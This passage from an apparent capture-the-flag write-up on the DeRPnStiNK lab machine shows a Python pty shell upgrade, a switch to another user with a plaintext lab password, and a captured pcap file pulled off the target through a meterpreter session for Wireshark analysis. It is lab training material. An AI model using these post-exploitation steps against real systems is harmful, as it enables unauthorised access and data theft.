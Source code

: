 ```
python -c 'import pty; pty.spawn("/bin/bash")'  
www-data@DeRPnStiNK:/home$ su stinky
su stinky
Password: wedgie57

stinky@DeRPnStiNK:/home$ 
```

Unfortunately, user *stinky* does not have full priviledges over this machine. Checking the files he has access to, we discover however flag 3 **flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
** located in /home/stinky/Desktop/flag.txt, a chat log between *stinky* and *mrderp* in /home/stinky/ftp/files/network-logs/derpissues.txt where stinky requires a password reset and starts a packet capture. The captured packets are saved in */home/stinky/Documents/derpissues.pcap*

Copy the file to a location accessible from meterpreter, and download it

```
stinky@DeRPnStiNK:~/Documents$ cp derpissues.pcap /tmp
cp derpissues.pcap /tmp
stinky@DeRPnStiNK:~/Documents$ ^C
Terminate channel 1? [y/N]  y
meterpreter > download /tmp/derpissues.pcap
[*] Downloading: /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 1.00 MiB of 4.19 MiB (23.88%): /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 2.00 MiB of 4.19 MiB (47.76%): /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 3.00 MiB of 4.19 MiB (71.63%): /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 4.00 MiB of 4.19 MiB (95.51%): /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 4.19 MiB of 4.19 MiB (100.0%): /tmp/derpissues.pcap -> derpissues.pcap
[*] download   : /tmp/derpissues.pcap -> derpissues.pcap

```

After opening the pcap file we just downloaded with *Wireshark*, we can find an HTTP request to */weblog/wp-admin/user-new.php* which gives us a lot of information regarding the *mrderp* user.

![derpissues.pcap](files/derpissues_pcap_wireshark.png)
